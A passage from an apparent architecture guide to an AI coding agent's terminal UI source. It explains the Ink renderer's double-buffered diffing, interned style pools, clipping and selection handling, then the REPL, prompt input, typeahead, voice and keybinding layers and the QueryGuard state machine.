In alt-screen mode, the renderer clamps the screen height to `terminalRows`. If something renders as a sibling of the `<AlternateScreen>` wrapper (a known bug pattern: `MessageSelector` outside `<FullscreenLayout>`), yogaHeight exceeds rows and every downstream assumption (viewport +1 hack, cursor.y clamp, log-update's heightDelta fast path) breaks, desyncing virtual and physical cursors. The clamping enforces the invariant: overflow writes land at `y >= screen.height` and `setCellAt` drops them. The sibling is invisible (obvious, easy to find) instead of corrupting the whole terminal.

## Where cc diverges from the published pattern

### Style transition caching and the yellow-fg-via-inverse trick

The `StylePool.withCurrentMatch` method implements a clever visual trick for highlighting the current search match. It filters both foreground and background from the base style, then adds yellow-fg, inverse, bold, and underline codes. When the terminal renders these codes, the inverse swaps foreground and background, so the yellow foreground becomes a yellow background. This gives the current match a distinctive yellow highlight that stands out from other inverse-only matches:

```typescript
// src/ink/screen.ts:L189-L220
private currentMatchCache = new Map<number, number>()
withCurrentMatch(baseId: number): number {
  let id = this.currentMatchCache.get(baseId)
  if (id === undefined) {
    const baseCodes = this.get(baseId)
    const codes = baseCodes.filter(
      c => c.endCode !== '\x1b[39m' && c.endCode !== '\x1b[49m',
    )
    codes.push(YELLOW_FG_CODE)
    if (!baseCodes.some(c => c.endCode === '\x1b[27m'))
      codes.push(INVERSE_CODE)
    if (!baseCodes.some(c => c.endCode === '\x1b[22m')) codes.push(BOLD_CODE)
    if (!baseCodes.some(c => c.endCode === '\x1b[24m'))
      codes.push(UNDERLINE_CODE)
    id = this.intern(codes)
    this.currentMatchCache.set(baseId, id)
  }
  return id
}
```

The method filters both foreground and background from the base style so the yellow-via-inverse is unambiguous. Without this filtering, a cell with an explicit background (like the user-prompt grey box) would produce inconsistent results across terminals when inverted with yellow. The underline code is added as an unambiguous visible marker because yellow-bg can clash with existing bg styling -- if you see underline but no yellow on a match, the overlay is finding it; the yellow is just losing a styling fight.

### Custom reconciler vs. Ink's built-in

The original Ink library uses React's built-in reconciler with a custom host config. cc replaces this with a custom reconciler (`src/ink/reconciler.ts`) that adds performance tracking, commit timing, and Yoga layout integration. This divergence is necessary because Ink's original reconciler does not support the double-buffered screen model or the operation-based rendering pipeline. The cc reconciler integrates `onComputeLayout` into the commit phase, ensuring that `useLayoutEffect` hooks (notably `useDeclaredCursor`) have access to fresh layout data before the render proceeds. Without this integration, the native cursor would lag one commit behind, breaking IME input for CJK characters.

### Screen differencing vs. full repaint

Standard terminal UI libraries (including upstream Ink) repaint the entire screen on each frame. cc's double-buffered diffing emits only the cells that changed, reducing the number of bytes written to the terminal by an order of magnitude. This is critical for cc's real-time streaming output, where the model produces tokens at 30-60 per second and each token triggers a render. HER Section 21's Layer 7 (Multi-Agent Coordination) notes that "the harness is the outer runtime layer that orchestrates the model's interactions with tools, permissions, hooks, memory, and the user" -- a harness that cannot render faster than the model streams breaks the real-time feedback loop and degrades the perceived quality of the entire system, regardless of how well the underlying agent logic works.

### Interned pools vs. string-per-cell

The use of `CharPool`, `StylePool`, and `HyperlinkPool` with integer IDs instead of per-cell string storage is a significant memory optimization. A screen of 80x24 cells stored as strings would require ~1920 string allocations per frame; with interned IDs, the same screen requires 1920 integer writes plus a shared string table. The diffing algorithm compares integers (O(1)) instead of strings (O(n)), and the `StylePool.transition()` cache eliminates redundant SGR sequence generation.

### Packed cell layout: two Int32s per cell

The `Screen` type stores cell data in a packed `Int32Array` rather than as per-cell objects. Each cell occupies two consecutive Int32 elements: `word0` holds the character ID (full 32 bits, an index into `CharPool`), and `word1` packs style ID (bits 31-17), hyperlink ID (bits 16-2), and cell width (bits 1-0) into a single integer:

```typescript
// src/ink/screen.ts:L332-L348
const STYLE_SHIFT = 17
const HYPERLINK_SHIFT = 2
const HYPERLINK_MASK = 0x7fff // 15 bits
const WIDTH_MASK = 3 // 2 bits

function packWord1(
  styleId: number,
  hyperlinkId: number,
  width: number,
): number {
  return (styleId << STYLE_SHIFT) | (hyperlinkId << HYPERLINK_SHIFT) | width
}
```

This layout halves memory accesses in the diff loop (2 int loads per cell vs. 4 for separate arrays) and enables future SIMD comparison via `Bun.indexOfFirstDifference`. For a 200x120 terminal, this avoids allocating 24,000 `Cell` objects per frame. An empty/unwritten cell is encoded as two zero words, which a `BigInt64Array.fill(0n)` clears in bulk:

```typescript
// src/ink/screen.ts:L350-L353
const EMPTY_CELL_VALUE = 0n
// Used by BigInt64Array.fill() for bulk clears (resetScreen, clearRegion).
```

The `isEmptyCellByIndex` function checks whether both words are zero, enabling the diff loop to skip unwritten cells without unpacking them into `Cell` view objects. This tight inner-loop optimization is critical because the diff runs on every frame.

### Damage tracking for limited diff

Rather than comparing every cell in the screen buffer on each frame, the `Screen` type maintains a `damage` bounding rectangle that tracks which region of cells was written to (not blitted) during the current render. The diff algorithm iterates only over the damage region, skipping cells that were copied from the previous frame via blit operations. The damage rectangle is expanded by the `unionRect` function when new write or clear operations fall outside the current bounds.

The `Output.get()` method performs two passes over the operation list. Pass 1 expands the damage region to cover all `clear` operations (since cleared cells must be diffed against the previous frame to detect that they changed). Pass 2 applies the actual operations -- writes, blits, shifts, and clips -- to the screen buffer. The two-pass design ensures that `absoluteClears` from absolutely-positioned nodes are collected before blit operations run, preventing stale paint from ghosting through when an absolute overlay shrinks.

### Clip regions and overflow handling

The `Clip` operation implements `overflow: hidden` for terminal UI boxes. When a component's rendered content exceeds its allocated width or height, the clip region restricts write operations to the visible area. Nested clips are intersected using `intersectClip`, which ensures that a child box with its own `overflow: hidden` cannot write outside its parent's clip region:

```typescript
// src/ink/output.ts:L104-L111
function intersectClip(parent: Clip | undefined, child: Clip): Clip {
  if (!parent) return child
  return {
    x1: maxDefined(parent.x1, child.x1),
    x2: minDefined(parent.x2, child.x2),
    y1: maxDefined(parent.y1, child.y1),
    y2: minDefined(parent.y2, child.y2),
  }
}
```

The clip stack is maintained as a simple array: `clip` pushes, `unclip` pops. Each write operation intersects its output with the current clip. Vertical clipping truncates lines, and the special `softWrap[from] === true` check preserves the soft-wrap continuation marker even when the preceding line was clipped, ensuring that the selection system can reconstruct the logical line structure across clip boundaries.

Horizontal clipping handles wide characters (CJK, emoji) by re-slicing when a clip boundary falls on the first cell of a double-wide character. The `sliceAnsi` function includes the entire glyph by default, overflowing the clip by one cell; a single retry with `to - 1` always fits because wide characters are exactly 2 cells.

### Shift operations for scroll

The `ShiftOperation` mirrors what DECSTBM (set scrolling region) and SU/SD (scroll up/scroll down) do in the terminal. When a `ScrollBox` component scrolls, the `shiftRows` function moves cell data within the packed array using `TypedArray.copyWithin`, which is a single memcpy call. The shift is paired with a `blit` that copies the previous frame's content into the newly exposed rows, avoiding a full child re-render for pure scroll:

```typescript
// src/ink/output.ts:L219-L221
shift(top: number, bottom: number, n: number): void {
  this.operations.push({ type: 'shift', top, bottom, n })
}
```

The `softWrap` array is shifted alongside the cell data, preserving the word-wrap continuation markers. When row `r` scrolls off the top and row `r+1` shifts to row `r`, `softWrap[r]` receives the old `softWrap[r+1]`, which correctly records whether the new row `r` is a continuation of what scrolled above.

### NoSelect: exclusion regions for gutters

The `NoSelectOperation` marks a region of cells as excluded from text selection (copy and highlight). This is used by the `<NoSelect>` component to fence off gutters (line numbers, diff sigils) so that click-drag over a diff yields clean, copyable code without the prefix numbers. The `noSelect` bitmap is a `Uint8Array` with one byte per cell, fully reset each frame in `resetScreen`. The `blitRegion` function copies it alongside cells so the blit optimization preserves selection-exclusion marks across frames:

```typescript
// src/ink/screen.ts:L386-L392
noSelect: Uint8Array
// Per-cell noSelect bitmap -- 1 byte per cell, 1 = exclude from text
// selection (copy + highlight). Used by <NoSelect> to mark gutters
// (line numbers, diff sigils) so click-drag over a diff yields clean
// copyable code. Fully reset each frame in resetScreen; blitRegion
// copies it alongside cells so the blit optimization preserves marks.
```

### Selection background: solid color vs. inverse

The `withSelectionBg` method in `StylePool` implements a selection overlay that replaces the cell's background with a solid color while preserving its foreground (color, bold, italic, dim, underline). This matches native terminal selection behavior, which uses a dedicated background color rather than SGR-7 inverse. The inverse approach (used by the search highlight for non-current matches) swaps foreground and background per-cell, which fragments visually over syntax-highlighted text because every foreground color becomes a different background stripe:

```typescript
// src/ink/screen.ts:L244-L258
withSelectionBg(baseId: number): number {
  const bg = this.selectionBgCode
  if (bg === null) return this.withInverse(baseId)
  let id = this.selectionBgCache.get(baseId)
  if (id === undefined) {
    const kept = this.get(baseId).filter(
      c => c.endCode !== '\x1b[49m' && c.endCode !== '\x1b[27m',
    )
    kept.push(bg)
    id = this.intern(kept)
    this.selectionBgCache.set(baseId, id)
  }
  return id
}
```

The method strips any existing background (endCode `\x1b[49m`) and inverse (endCode `\x1b[27m`) from the base style, then pushes the selection background code. This ensures that the selection overlay always appears as a consistent color regardless of the underlying cell's styling. The cache is cleared when `setSelectionBg` is called with a different color (e.g., on theme change).

### Render scheduling: microtask deferral and throttling

The `scheduleRender` function is debounced with `throttle` at `FRAME_INTERVAL_MS` (16ms), with both leading and trailing edges enabled. The leading edge ensures the first state change renders immediately; the trailing edge ensures the last state change in a burst is not dropped. A critical subtlety is that `scheduleRender` defers the actual render to a microtask:

```typescript
// src/ink/ink.tsx:L212-L216
const deferredRender = (): void => queueMicrotask(this.onRender)
this.scheduleRender = throttle(deferredRender, FRAME_INTERVAL_MS, {
  leading: true,
  trailing: true
})
```

The microtask deferral runs `onRender` after React's layout effects have committed. Without this, `useLayoutEffect` hooks (notably the `cursorDeclaration` from `useDeclaredCursor`) would lag one commit behind because `scheduleRender` is called from the reconciler's `resetAfterCommit`, which runs before React's layout phase. The microtask ensures the native cursor tracks the caret without a one-keystroke lag, while staying on the same event-loop tick so throughput is unchanged.

### Terminal handoff: enterAlternateScreen and exitAlternateScreen

The Ink class supports handing the terminal over to an external TUI (such as a git commit editor or `less` pager) and restoring it afterward. The `enterAlternateScreen` method pauses Ink, suspends stdin, and writes escape sequences to disable extended key reporting, disable mouse tracking, enter alternate screen, disable focus reporting, reset attributes, show cursor, clear screen, and home the cursor. The key insight is that editors like `nano` do not speak CSI-u (the Kitty keyboard protocol), so `DISABLE_KITTY_KEYBOARD` must be written before the handoff to prevent "Unknown sequence" errors.

The `exitAlternateScreen` method re-enters alt-screen mode after the external editor exits. This is necessary because terminal editors write their own `smcup/rmcup` (enter/exit alternate screen) sequences, and the editor's `rmcup` on exit drops the terminal back to the main screen. Without re-entering, the `2J` clear would wipe the user's main-screen scrollback, and subsequent renders would land on the main screen. After re-entering, Ink re-enables focus reporting and extended key reporting with a "pop-before-push" strategy on the Kitty keyboard stack, keeping the stack balanced across multiple editor round-trips.

### Selection scroll-following: capture and shift

When the `ScrollBox` auto-follows new content (sticky scroll), the selection must be translated by the same delta so the highlight stays anchored to the text. The `consumeFollowScroll` function reports the scroll delta, and the Ink class calls `shiftAnchor` or `shiftSelectionForFollow` to move the selection endpoints. The `captureScrolledRows` function copies the rows about to scroll off into a `scrolledOffAbove` buffer before they are overwritten, ensuring that text stays copyable until the selection scrolls entirely off the top of the viewport:

```typescript
// src/ink/ink.tsx:L462-L512
const follow = consumeFollowScroll();
if (follow && this.selection.anchor &&
this.selection.anchor.row >= follow.viewportTop && this.selection.anchor.row <= follow.viewportBottom) {
  const { delta, viewportTop, viewportBottom } = follow;
  if (this.selection.isDragging) {
    if (hasSelection(this.selection)) {
      captureScrolledRows(this.selection, this.frontFrame.screen,
        viewportTop, viewportTop + delta - 1, 'above');
    }
    shiftAnchor(this.selection, -delta, viewportTop, viewportBottom);
  } else if (
  !this.selection.focus || this.selection.focus.row >= viewportTop && this.selection.focus.row <= viewportBottom) {
    if (hasSelection(this.selection)) {
      captureScrolledRows(this.selection, this.frontFrame.screen,
        viewportTop, viewportTop + delta - 1, 'above');
    }
    const cleared = shiftSelectionForFollow(this.selection, -delta, viewportTop, viewportBottom);
    if (cleared) for (const cb of this.selectionListeners) cb();
  }
}
```

A guard prevents shifting selections that straddle the scrollbox boundary (one endpoint on scrollbox content, the other on the static footer). Without this guard, the footer endpoint would be clamped to `viewportBottom`, teleporting the highlight from the footer into the scrollbox. The `captureScrolledRows` and `shiftAnchor` calls are a pair: capture grabs rows about to scroll off, shift moves the selection endpoint so the same rows will not intersect again next frame. Capturing without shifting leaves the endpoint in place, causing the same viewport rows to re-intersect every frame and `scrolledOffAbove` to grow without bound.

### log-update: the terminal write provider

The Ink class uses `log-update` (imported as `LogUpdate`) as the final sink for terminal output. The `log-update` module manages the physical cursor position and provides the `done()` method that clears the "currently rendered" line when the application exits. In alt-screen mode, `log-update` is mostly bypassed because the Ink class manages the cursor directly via the `altScreenParkPatch` mechanism. In non-alt-screen (main screen) mode, `log-update` handles the clear-and-rewrite pattern that keeps the Ink output pinned to the bottom of the terminal scrollback.

The `log.reset()` call in `handleResume` clears `log-update`'s internal state after a SIGCONT, preventing stale cursor position data from corrupting the next frame. Similarly, `handleResize` does not call `log.reset()` directly; instead, it sets `needsEraseBeforePaint = true`, which prepends an ERASE_SCREEN to the next frame's BSU/ESU block, ensuring the clear and repaint appear as a single atomic update. This separation between `log-update` and the Ink render pipeline means that `log-update` is only responsible for the physical terminal write, not for the logical screen state.

## The Ink virtual DOM

The Ink rendering pipeline is built around a virtual DOM that maps React components to terminal output. The DOM types are defined in `src/ink/dom.ts`:

```mermaid
classDiagram
    class DOMElement {
        +nodeName: ElementNames
        +attributes: DOMNodeAttribute
        +style: Styles
        +childNodes: DOMElement[]
        +parentNode: DOMElement
        +yogaNode: Yoga
        +focusManager: FocusManager
        +onComputeLayout: function
        +onRender: function
    }
    class TextNode {
        +nodeName: #text
        +nodeValue: string
    }
    class Ink {
        +frontFrame: Frame
        +backFrame: Frame
        +stylePool: StylePool
        +charPool: CharPool
        +hyperlinkPool: HyperlinkPool
        +focusManager: FocusManager
        +selection: SelectionState
        +scheduleRender()
        +onRender()
    }
    class Frame {
        +screen: Screen
        +viewport: Size
        +cursor: CursorState
    }
    class Screen {
        +cells: Int32Array
        +cells64: BigInt64Array
        +charPool: CharPool
        +hyperlinkPool: HyperlinkPool
        +damage: Rectangle
        +noSelect: Uint8Array
        +softWrap: Int32Array
    }
    Ink "1" --> "2" Frame : frontFrame, backFrame
    Frame "1" --> "1" Screen : screen
    Ink "1" --> "1" FocusManager : owns
    DOMElement "1" --> "0..*" DOMElement : childNodes
    DOMElement "1" --> "1" DOMElement : parentNode
```

The `DOMElement` type is the core node in the virtual DOM tree. Each element has a `yogaNode` for flexbox layout, a `style` object for Ink-specific styling (color, bold, dim, etc.), and `attributes` for properties like `tabIndex`. The `Ink` class owns two `Frame` objects, each containing a `Screen` buffer, viewport dimensions, and cursor state. The reconciler builds the DOM tree, Yoga computes layout, the output engine walks the tree to produce screen operations, and the renderer diffs the resulting screen against the previous frame.

## Developer takeaways for building a long-running agent

1. **Double-buffer your terminal output.** Never repaint the full screen on each frame. Maintain two screen buffers, diff them, and emit only the changes. This reduces terminal I/O by 10x or more and eliminates visible flicker. HER Section 21's Layer 7 notes that the UX layer is the outermost orchestration surface -- a flickering or laggy renderer degrades trust in the entire system.

2. **Intern your data.** Characters, styles, and hyperlinks repeat heavily across frames. Interning them to integer IDs turns string comparisons into integer comparisons and eliminates redundant escape sequence generation. The `StylePool.transition()` cache is especially valuable -- style changes account for the majority of terminal output bytes.

3. **Handle wide characters correctly.** CJK characters and emoji occupy two terminal columns. If your rendering pipeline does not account for this, you will get misaligned output that cascades through the rest of the screen. Use a grapheme segmenter to split strings and compute terminal widths before writing to the screen buffer.

4. **Debounce rendering.** Terminal updates are expensive relative to state changes. Debounce the render schedule to 16ms (60fps) and batch all pending state changes into a single render. This prevents redundant renders when the model streams tokens at high frequency.

5. **Make resize atomic.** Terminal resize events can arrive mid-render. Defer the resize into the next render cycle and use synchronized update escapes (BSU/ESU) to ensure the clear and repaint appear as a single atomic update.

6. **Separate selection from content.** Text selection is an overlay on the screen buffer, not part of the content. Apply it after the content render and track whether the overlay contaminated the previous frame so the diffing algorithm can recover.

7. **Use alt-screen mode for interactive sessions.** The alternate screen buffer gives you a private canvas that does not interfere with the user's shell history. It also enables mouse tracking and in-process text selection, which are essential for a professional terminal UI.

8. **Integrate layout into the commit phase.** Compute flexbox layout synchronously during the React commit phase so that layout-dependent hooks (cursor positioning, measurement) have fresh data. Without this, the cursor lags one commit behind, breaking IME input for CJK characters.

9. **Implement DOM-like focus management.** A focus stack with automatic restoration on node removal prevents orphaned focus states when dynamic content (tool results, messages) appears and disappears. Tab cycling through focusable elements gives keyboard users a navigable interface.
# REPL, PromptInput, Typeahead, Voice, Keybindings

## Overview

The Read-Eval-Print Loop (REPL) is the primary interaction surface between the human operator and the agent. At approximately 5,000 lines of code, `src/screens/REPL.tsx` is the largest single component in cc, orchestrating message display, prompt input, tool permission flows, session management, MCP connections, cost tracking, and dozens of notification hooks. Beneath it sits `src/components/PromptInput/PromptInput.tsx` (~2,300 LOC), the interactive prompt composer that handles text input, mode switching, image pasting, suggestion navigation, and keybinding dispatch. Two powerful hooks complete the interaction layer: `src/hooks/useTypeahead.tsx` (~1,400 LOC) provides context-aware autocomplete for slash commands, file paths, and shell history, while `src/hooks/useVoice.ts` (~1,100 LOC) implements hold-to-talk voice input using Anthropic's `voice_stream` STT endpoint. Together these components embody HER Section 11's human-in-the-loop design patterns: the REPL is the primary channel through which the human operator reviews, approves, and redirects agent actions (HER section 11.2, tiered escalation), and the keybinding, typeahead, and voice systems are configuration surfaces (HER Section 7) that shape how the human interacts with the harness.

This chapter traces the flow from keystroke to model submission, examines the typeahead engine's multi-source suggestion pipeline, details the voice integration's hold-to-talk protocol, and maps the keybinding context system that routes keyboard input to the correct handler based on which UI element has focus.

## Data structures and contracts

### The REPL screen and its state

The `REPL` component manages several distinct screen modes. The `Screen` type (defined in `src/screens/REPL.tsx:L571`) enumerates the possible views:

```typescript
// src/screens/REPL.tsx - Screen type used by keybindings
type Screen = 'prompt' | 'transcript'
```

The primary screen is `'prompt'`, which shows the interactive prompt with streaming model output. The `'transcript'` screen provides a scrollable, searchable view of the full conversation history. Switching between them is handled by `ctrl+o`, registered in `src/hooks/useGlobalKeybindings.tsx`.

```mermaid
classDiagram
    class REPL {
        +Screen screen
        +Message[] messages
        +PromptInput promptInput
        +Messages messageList
        +CostTracker costTracker
        +MCPClient[] mcpClients
        +ScrollBox scrollBox
        +handlePromptSubmit(input)
        +processSessionStartHooks()
        +executeSessionEndHooks()
    }
    class PromptInput {
        +PromptInputMode mode
        +string input
        +number cursorOffset
        +SuggestionItem[] suggestions
        +Record pastedContents
        +VimMode vimMode
        +onInputChange(value)
        +onSubmit(input, helpers)
        +onModeChange(mode)
    }
    class UseTypeahead {
        +SuggestionItem[] suggestions
        +number selectedSuggestion
        +SuggestionType suggestionType
        +InlineGhostText inlineGhostText
        +handleKeyDown(e)
    }
    class UseVoice {
        +VoiceState state
        +handleKeyEvent(fallbackMs)
        +stripTrailing(text)
    }
    class GlobalKeybindingHandlers {
        +Screen screen
        +setScreen(screen)
        +handleCtrlO()
        +handleCtrlT()
    }
    REPL --> PromptInput : renders
    REPL --> UseVoice : integrates via useVoiceIntegration
    PromptInput --> UseTypeahead : delegates key events
    REPL --> GlobalKeybindingHandlers : mounts
```

The REPL's state is distributed across multiple React hooks and the `AppState` store. Key state fields include:

- `input`: the current prompt text
- `mode`: the `PromptInputMode` (`prompt`, `bash`, `vim`, `agent`)
- `messages`: the conversation history
- `mcpClients`: connected MCP server clients
- `toolPermissionContext`: current permission state for tool gating
- `pastedContents`: clipboard images and text awaiting submission

### PromptInput modes and input handling

`PromptInput` supports multiple input modes, each with distinct behavior:

```typescript
// src/components/PromptInput/PromptInput.tsx:L124-L184
type Props = {
  debug: boolean;
  ideSelection: IDESelection | undefined;
  toolPermissionContext: ToolPermissionContext;
  setToolPermissionContext: (ctx: ToolPermissionContext) => void;
  apiKeyStatus: VerificationStatus;
  commands: Command[];
  agents: AgentDefinition[];
  isLoading: boolean;
  verbose: boolean;
  messages: Message[];
  input: string;
  onInputChange: (value: string) => void;
  mode: PromptInputMode;
  onModeChange: (mode: PromptInputMode) => void;
  mcpClients: MCPServerConnection[];
  pastedContents: Record<number, PastedContent>;
  setPastedContents: React.Dispatch<React.SetStateAction<Record<number, PastedContent>>>;
  vimMode: VimMode;
  setVimMode: (mode: VimMode) => void;
  onSubmit: (input: string, helpers: PromptInputHelpers, speculationAccept?: {...}, options?: {...}) => Promise<void>;
  // ... 30+ additional fields for full configuration surface
};
```

The `mode` field controls the prompt prefix and submission behavior: `'prompt'` mode sends the input to the agent, `'bash'` mode wraps it in a Bash tool call, `'vim'` mode enables modal editing, and `'agent'` mode routes input to a specific subagent. The `suggestionsState` tracks the current typeahead suggestions and which one is selected, enabling Tab/arrow-key navigation through completions.

### PromptInput internal architecture

Internally, `PromptInput` is composed of several sub-components that each handle a distinct aspect of the prompt experience. The `VimTextInput` component wraps the text input with modal editing support, dispatching `VimMode` changes via the `setVimMode` callback. The `PromptInputFooter` renders the status bar below the prompt, showing the current mode indicator, cost, and model name. The `PromptInputFooterSuggestions` component renders the typeahead suggestion list in the footer area, highlighting the selected suggestion and displaying argument hints.

The submission pipeline within `PromptInput` follows a multi-stage process. When the user presses Enter, the component first checks whether the input is a slash command by calling `processSlashCommand`. If the input starts with `/` and matches a registered command, the command's callback is invoked instead of submitting to the model. For bash mode, the input is wrapped in a Bash tool call structure before being passed to `onSubmit`. The `PromptInputHelpers` object passed to `onSubmit` contains utility functions for cursor manipulation, pasted content management, and stash/restore operations that allow the REPL to save and restore the prompt state across mode switches.

The `stashedPrompt` mechanism allows the user to switch to bash mode without losing their current prompt text. When the mode changes from `'prompt'` to `'bash'`, the current input and cursor offset are stashed. When the mode switches back, the stash is restored. This is a small but critical detail: without it, toggling to bash mode for a quick command would erase a half-composed prompt.

### UseTypeahead: multi-source suggestion engine

The `useTypeahead` hook aggregates suggestions from multiple sources into a unified list:

```typescript
// src/hooks/useTypeahead.tsx:L108-L116
type UseTypeaheadResult = {
  suggestions: SuggestionItem[];
  selectedSuggestion: number;
  suggestionType: SuggestionType;
  maxColumnWidth?: number;
  commandArgumentHint?: string;
  inlineGhostText?: InlineGhostText;
  handleKeyDown: (e: KeyboardEvent) => void;
};
```

The `suggestionType` discriminates between different categories (slash commands, file paths, shell completions, Slack channels). The `inlineGhostText` provides inline completion hints that appear as dimmed text after the cursor (similar to GitHub Copilot's ghost text). The `handleKeyDown` function intercepts key events to navigate and accept suggestions.

### UseVoice: hold-to-talk STT integration

The `useVoice` hook implements a hold-to-talk voice input protocol:

```typescript
// src/hooks/useVoice.ts:L143-L155
type VoiceState = 'idle' | 'recording' | 'processing'

type UseVoiceOptions = {
  onTranscript: (text: string) => void
  onError?: (message: string) => void
  enabled: boolean
  focusMode: boolean
}

type UseVoiceReturn = {
  state: VoiceState
  handleKeyEvent: (fallbackMs?: number) => void
}
```

The `VoiceState` transitions from `'idle'` to `'recording'` when the key is held, then to `'processing'` when the key is released and the audio is sent to Anthropic's `voice_stream` endpoint for transcription. The `focusMode` flag keeps the WebSocket connection alive between utterances, reducing latency for continuous voice input. This hold-to-talk design is a concrete instance of HER Section 11's human-in-the-loop principle: the operator must explicitly and continuously signal intent to record, preventing accidental audio capture when the voice key is brushed.

The language normalization system supports 20 languages with both English and native name mappings, plus ASCII transliterations for accents:

```typescript
// src/hooks/useVoice.ts:L42-L89
const LANGUAGE_NAME_TO_CODE: Record<string, string> = {
  english: 'en',
  spanish: 'es',
  español: 'es',
  espanol: 'es',
  french: 'fr',
  français: 'fr',
  francais: 'fr',
  japanese: 'ja',
  日本語: 'ja',
  german: 'de',
  deutsch: 'de',
  portuguese: 'pt',
  português: 'pt',
  portugues: 'pt',
  italian: 'it',
  italiano: 'it',
  korean: 'ko',
  한국어: 'ko',
  hindi: 'hi',
  हिन्दी: 'hi',
  हिंदी: 'hi',
  indonesian: 'id',
  'bahasa indonesia': 'id',
  bahasa: 'id',
  russian: 'ru',
  русский: 'ru',
  polish: 'pl',
  polski: 'pl',
  turkish: 'tr',
  türkçe: 'tr',
  turkce: 'tr',
  dutch: 'nl',
  nederlands: 'nl',
  ukrainian: 'uk',
  українська: 'uk',
  greek: 'el',
  ελληνικά: 'el',
  czech: 'cs',
  čeština: 'cs',
  cestina: 'cs',
  danish: 'da',
  dansk: 'da',
  swedish: 'sv',
  svenska: 'sv',
  norwegian: 'no',
  norsk: 'no',
}
```

### GlobalKeybindingHandlers: context-aware key routing

The `GlobalKeybindingHandlers` component registers keybindings that operate at the application level:

```typescript
// src/hooks/useGlobalKeybindings.tsx:L36-L46
export function GlobalKeybindingHandlers({
  screen,
  setScreen,
  showAllInTranscript,
  setShowAllInTranscript,
  messageCount,
  onEnterTranscript,
  onExitTranscript,
  virtualScrollActive,
  searchBarOpen = false
}: Props): null
```

It renders nothing (`null`) but registers handlers for `ctrl+t` (toggle task list), `ctrl+o` (toggle transcript mode), `ctrl+e` (toggle show all in transcript), and `ctrl+c`/Escape (exit transcript mode). Each handler is registered with a `context` string (`'Global'`) that determines when it is active.

## Control flow

### Keystroke to model submission

The full flow from a keystroke to the model receiving a prompt goes through several layers:

```mermaid
sequenceDiagram
    participant Terminal
    participant Ink
    participant GlobalKeybindings
    participant PromptInput
    participant Typeahead
    participant REPL
    participant Query
    Terminal->>Ink: keypress event
    Ink->>GlobalKeybindings: route by context
    GlobalKeybindings->>PromptInput: if prompt context
    PromptInput->>Typeahead: handleKeyDown
    alt suggestion accepted
        Typeahead->>PromptInput: update input text
    else Enter pressed
        PromptInput->>REPL: onSubmit(input, helpers)
        REPL->>Query: query(input, messages, tools)
    end
```

1. The terminal emits a keypress event.
2. The Ink event system routes it to the focused component.
3. `GlobalKeybindingHandlers` checks if the key matches a global shortcut (e.g., `ctrl+o`). If so, it handles it and stops propagation.
4. `PromptInput` receives the key event. It first passes it to `useTypeahead`'s `handleKeyDown` for suggestion navigation.
5. If the typeahead does not consume the event, `PromptInput` handles it directly (character input, cursor movement, mode switching).
6. On Enter, `PromptInput.onSubmit` is called with the final input text.
7. `REPL.onSubmit` processes the input through `handlePromptSubmit`, which handles slash commands, mode prefixes, and agent routing.
8. The input is sent to `query()` in `src/query.ts` for model processing.

### QueryGuard: preventing concurrent queries

Between step 7 (the REPL processing a submission) and step 8 (the actual query call), a subtle concurrency gap exists. React batches state updates, so a synchronous check of `isLoading` via `useState` can read stale values when two submissions overlap in the same event loop tick. The `QueryGuard` class (`src/utils/QueryGuard.ts`) solves this with a synchronous three-state machine that lives outside React's batching boundary.

The three states are `idle`, `dispatching`, and `running` (`src/utils/QueryGuard.ts:L30`). The `_status` field transitions through these states via five methods:

- **`reserve()`** (`src/utils/QueryGuard.ts:L38`): transitions `idle` to `dispatching`. Returns `false` if the guard is not idle, blocking any concurrent dequeue. The queue processor calls this before pulling the next item.
- **`cancelReservation()`** (`src/utils/QueryGuard.ts:L49`): transitions `dispatching` back to `idle`. Called when the queue processor discovers the queue is empty after dequeuing, cleaning up the reservation without starting a query.
- **`tryStart()`** (`src/utils/QueryGuard.ts:L61`): transitions `idle` or `dispatching` to `running`. Returns the current `_generation` counter on success, or `null` if a query is already running. This method accepts transitions from both `idle` (direct user submission) and `dispatching` (queue processor path), making it the single entry point for all query starts.
- **`end(generation)`** (`src/utils/QueryGuard.ts:L74`): transitions `running` back to `idle`, but only if the provided `generation` matches `_generation`. Returns `true` on success and `false` on mismatch. This is the stale-finally-block defense: when a query is cancelled and a new one starts, the old query's `finally` block still runs, calling `end()`. Because the generation has incremented, the stale `end()` returns `false` and the caller skips cleanup that would corrupt the new query's state.
- **`forceEnd()`** (`src/utils/QueryGuard.ts:L88`): force-resets to `idle` regardless of state, and increments `_generation` to invalidate any outstanding `finally` blocks. Used by the cancel handler (`onCancel`) where the running query must be terminated immediately.

```mermaid
stateDiagram-v2
    [*] --> idle
    idle --> dispatching : reserve()
    idle --> running : tryStart() [direct submit]
    dispatching --> running : tryStart()
    dispatching --> idle : cancelReservation()
    running --> idle : end(gen) [gen matches]
    running --> idle : forceEnd()
```

The `isActive` getter (`src/utils/QueryGuard.ts:L99`) returns `true` for both `dispatching` and `running`. This is the key insight: during the async gap between queue dequeue and `tryStart()`, the guard is in the `dispatching` state, preventing re-entry from the queue processor even though no query is yet executing.

The class implements the `useSyncExternalStore` interface required by React 18 for external state synchronization. The `subscribe` method (`src/utils/QueryGuard.ts:L111`) delegates to a `Signal` created by `createSignal()` from `src/utils/signal.ts`, which is a lightweight listener-set primitive. The `getSnapshot` method (`src/utils/QueryGuard.ts:L114`) returns `isActive` as a boolean. Together they allow a React component to subscribe to guard state changes without polling:

```typescript
// src/utils/QueryGuard.ts:L110-L116 — useSyncExternalStore interface
subscribe = this._changed.subscribe

getSnapshot = (): boolean => {
  return this._status !== 'idle'
}
```

The `_generation` counter is a monotonically increasing integer (`src/utils/QueryGuard.ts:L31`) that increments on each `tryStart()` and `forceEnd()`. It never wraps in practice because a session would need to exceed `Number.MAX_SAFE_INTEGER` queries. The counter solves a race that arises from JavaScript's microtask scheduling: when a query's promise is rejected (e.g., via `AbortController.abort()`), the `finally` block runs asynchronously. If a new query has already started by the time the `finally` fires, the stale block would call `end()` and reset the guard, incorrectly marking the new query as idle. The generation check prevents this: `end(oldGeneration)` returns `false` because `_generation` has already advanced.

### Speculative execution: merge and rollback mechanics

cc can pre-execute tool calls speculatively while waiting for the user to accept a prompt suggestion. When the user accepts, the speculated work is merged into the real session; when the user rejects or types something different, the work is rolled back and discarded. This machinery lives in `src/services/PromptSuggestion/speculation.ts`.

